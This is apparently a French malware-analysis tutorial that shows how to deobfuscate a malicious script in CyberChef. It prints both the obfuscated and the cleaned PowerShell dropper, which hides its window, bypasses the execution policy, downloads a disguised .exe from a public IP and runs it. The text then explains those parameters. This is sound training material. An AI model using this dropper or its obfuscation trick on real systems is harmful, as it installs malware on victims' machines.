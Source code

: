 C'est bien mieux, n'est-ce pas ?

Nous n'avons plus besoin de lire l'intégralité du script, mais simplement de nous familiariser avec certains caractères et commandes. Ce qui nous intéresse ici, c'est l'utilité de `Sqtnew`, car si l'on examine le script, on y trouve une **adresse IP publique**, un `PDF` et un fichier `.exe`. Il serait judicieux d'approfondir la question.

```bash
Sqtnew = "^p*o^*w*e*r*s^^*h*e*l^*l* *^-*W*i*n*^d*o*w^*S*t*y*^l*e* *h*i*^d*d*^e*n^* *-*e*x*^e*c*u*t*^i*o*n*pol^icy* *b*yp^^ass*;* $TempFile* *=* *[*I*O*.*P*a*t*h*]*::GetTem*pFile*Name() | Ren^ame-It^em -NewName { $_ -replace 'tmp$', 'exe' }  Pass*Thru; In^vo*ke-We^bRe*quest -U^ri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -Out*File $TempFile; St*art-Proce*ss $TempFile;"
Sqtnew = Replace(Sqtnew, "*", "")
Sqtnew = Replace(Sqtnew, "^", "")
```

Nous allons copier la première valeur de Sqtnew et la coller dans la zone de saisie de `CyberChef`. Vous pouvez ouvrir une copie locale de CyberChef dans la machine virtuelle REMnux ou accéder à la version en ligne via [ce lien](https://gchq.github.io/CyberChef/). Choisissez la méthode qui vous convient le mieux. N'hésitez pas à consulter notre forum dédié à CyberChef pour vous familiariser avec l'outil.

Ensuite, sélectionnez deux fois l'opération Find/Replace. En consultant le script, les deuxième et troisième valeurs de **Sqtnew** contiennent une commande pour remplacer respectivement `*` par `""` et `^` par `""`. Nous supposons que "" signifie qu'il n'y a pas de valeur. Ainsi, lors de la première opération, nous saisissons la valeur * et choisissons `Simple String` comme paramètre supplémentaire. En revanche, nous ne saisissons aucune valeur dans le champ Remplacer. Il en va de même pour la seconde opération : nous saisissons la valeur **^** et choisissons `Simple String`, le champ Remplacer restant vide. Voir l'image ci-dessous.

CyberChef utilise la fonction `Find/Replace` à deux reprises pour corriger un script PowerShell.

![string](https://tryhackme-images.s3.amazonaws.com/user-uploads/5e6bbe59a46ee9407fd65bbe/room-content/5e6bbe59a46ee9407fd65bbe-1727075711805.png)

Voilà qui est plus lisible ! Cependant, pour les débutants, cela peut s'avérer difficile. Nous allons donc aborder ici les commandes les plus basiques.

```powershell
"powershell -WindowStyle hidden -executionpolicy bypass; $TempFile = [IO.Path]::GetTempFileName() | Rename-Item -NewName { $_ -replace 'tmp$', 'exe' }  PassThru; Invoke-WebRequest -Uri ""http://193.203.203.67/rt/Doc-3737122pdf.exe"" -OutFile $TempFile; Start-Process $TempFile;"
```

Analysons cela !

Dans PowerShell, le paramètre `-WindowStyle` permet de contrôler l'apparence de la fenêtre PowerShell lors de l'exécution d'un script ou d'une commande. Ici, `hidden` signifie que la fenêtre PowerShell ne sera pas visible pour l'utilisateur.

Par défaut, PowerShell restreint l'exécution des scripts pour des raisons de sécurité. Le paramètre `-executionpolicy` permet de contourner cette restriction. L'option `bypass` signifie que la stratégie d'exécution est temporairement ignorée, autorisant ainsi l'exécution de tout script sans restriction.

La commande `Invoke-WebRequest` est couramment utilisée pour télécharger des fichiers depuis Internet.
